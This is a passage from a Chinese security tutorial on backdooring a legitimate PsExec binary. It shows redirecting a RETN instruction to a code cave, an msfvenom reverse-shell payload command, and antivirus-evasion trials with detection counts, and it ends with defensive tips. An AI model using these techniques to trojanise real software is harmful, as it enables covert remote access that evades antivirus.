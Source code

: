 <p nodeIndex="273"><span nodeIndex="672">右键，选择“Follow in Disassembly“，跳转到汇编代码的相应位置。</span></p>
<div id="RIL_IMG_42" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809674250/42"/></div>
<p nodeIndex="275"><span nodeIndex="674">你可能会碰到某个异常，忽略它即可。让我们跟进第二个CALL（即CALL PsExec2_.003182AF）。在RET之前有某些未使用的空间可以利用，我们为什么不让程序在这里跳转到我们的载荷呢？</span></p>
<div id="RIL_IMG_43" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809674250/43"/></div>
<p nodeIndex="277"><span nodeIndex="676">在RVA_8334处，我们可以跳转到我们的代码洞中（RVA_290E8）。劫持RETN指令有什么好处呢？我们可以直接使用它，而不用去在意下一跳指令是什么。</span></p>
<div id="RIL_IMG_44" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809674250/44"/></div>
<p nodeIndex="279"><span nodeIndex="678">请注意：不要忘记修补入口点指令，我们再也不需要从那个位置跳转到我们的代码段。保存更改，然后启动监听器。</span></p>
<div id="RIL_IMG_45" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809674250/45"/></div>
<p nodeIndex="281"><span nodeIndex="680">杀软检测结果如何？</span></p>
<div id="RIL_IMG_46" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809674250/46"/></div>
<p nodeIndex="283"><span nodeIndex="682">只有9/60，这是目前最低的检测率！可能是静态分析还有点问题，且知名的杀软还是会检测出MSF载荷。</span></p>
<p nodeIndex="284"><span nodeIndex="683">4.1 更多的杀软绕过方法</span></p>
<p nodeIndex="285"><span nodeIndex="684">根据前文的内容，我们来思考下还有什么方法能够降低检测率。我尝试了以下方法：</span></p>
<p nodeIndex="286"><span nodeIndex="685">1、使用strip函数处理二进制文件：结果没变化（9/60）。</span></p>
<p nodeIndex="287"><span nodeIndex="686">2、去掉损坏的证书信息：结果不好，检测率提升到了18/60。</span></p>
<p nodeIndex="288"><span nodeIndex="687">3、使用自定义的</span><a href="https://github.com/abatchy17/SLAE" target="_self" nodeIndex="688"><span nodeIndex="689">异或算法</span></a><span nodeIndex="690">处理一个最小的MSF载荷。</span></p>
<p nodeIndex="289"><span nodeIndex="691">所使用的载荷：</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="290">
msfvenom -p windows/shell_reverse_tcp -b "\x00" –smallest
</pre>
<p nodeIndex="291"><span nodeIndex="692">检测率：5/60，这是目前为止最低的检测率！</span></p>
<div id="RIL_IMG_47" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809674250/47"/></div>
<p nodeIndex="293"><span nodeIndex="694">如果我们弃用MSF载荷，使用不是那么可疑的exploit-db的</span><a href="https://www.exploit-db.com/exploits/40352/" target="_self" nodeIndex="695"><span nodeIndex="696">载荷</span></a><span nodeIndex="697">呢？我使用的是这个载荷，没有进行编码处理。</span></p>
<div id="RIL_IMG_48" class="RIL_IMG"><img src="/media/posts_images/2017-07-05-1809674250/48"/></div>
<p nodeIndex="295"><span nodeIndex="699">结果非常好，只有3/59的检测率！当然我们可能还有提升的空间（比如使用加密方法？），但现在结果已经足够好了。</span></p>
<p nodeIndex="296"><span nodeIndex="700"><strong nodeIndex="701"><span nodeIndex="702">4.2 如何保护自己</span></strong></span></p>
<p nodeIndex="297"><span nodeIndex="703">我建议我们自己编译源码，编写自己的工具，不要信任任何人。否则，还是放弃保护自己的念头吧。</span></p>
<p nodeIndex="298"><span nodeIndex="704">当然，现实点的建议是：</span></p>
<p nodeIndex="299"><span nodeIndex="705">1、只从信任的源上下载程序。</span></p>
<p nodeIndex="300"><span nodeIndex="706">2、检查校验和/哈希值。</span></p>
<p nodeIndex="301"><span nodeIndex="707">3、给自己的系统打补丁，经常更新自己的病毒库。</span></p>
<p nodeIndex="302"><span nodeIndex="708">4、注意提示信息，正常情况下calc.exe肯定不会请求添加防火墙例外的。</span></p>
<p nodeIndex="303"><span nodeIndex="709">5、希望一切顺利，不要无脑单击到底。</span></p>
<p nodeIndex="304"><span nodeIndex="710">感谢读者阅读本文。</span></p>

<p nodeIndex="306"><span nodeIndex="713"><strong nodeIndex="714"><span nodeIndex="715">五、附录</span></strong></span></p>
<hr nodeIndex="716"><p nodeIndex="307"><span nodeIndex="717"><strong nodeIndex="718"><span nodeIndex="719">5.1 公式</span></strong></span></p>
<p nodeIndex="308"><span nodeIndex="720">1、𝑀𝑜𝑑𝑢𝑙𝑒𝐸𝑛𝑡𝑟𝑦𝑃𝑜𝑖𝑛𝑡（模块入口点） = 𝐵𝑎𝑠𝑒𝐴𝑑𝑑𝑟𝑒𝑠𝑠（基址） + 𝐸𝑛𝑡𝑟𝑦𝑃𝑜𝑖𝑛𝑡（入口点）</span></p>
<p nodeIndex="309"><span nodeIndex="721">2、EntryPoint在文件中的偏移 = EntryPoint – (𝑉𝑖𝑟𝑡𝑢𝑎𝑙𝑆𝑖𝑧𝑒𝑂𝑓𝐻𝑒𝑎𝑑𝑒𝑟 − 𝑆𝑖𝑧𝑒𝑂𝑓𝐻𝑒𝑎𝑑𝑒𝑟𝑠)</span></p>
<p nodeIndex="310"><span nodeIndex="722">3、代码洞的RVA地址 = 代码洞所在区段的虚拟偏移 + 代码洞的原始偏移 – 代码洞所在区段的原始偏移</span></p>
<p nodeIndex="311"><span nodeIndex="723"><strong nodeIndex="724"><span nodeIndex="725">5.2 代码仓库</span></strong></span></p>
<p nodeIndex="312"><span nodeIndex="726">1、https://github.com/abatchy17/Introduction-To-Backdooring</span></p>
<p nodeIndex="313"><span nodeIndex="727">2、https://github.com/abatchy17/SLAE</span></p>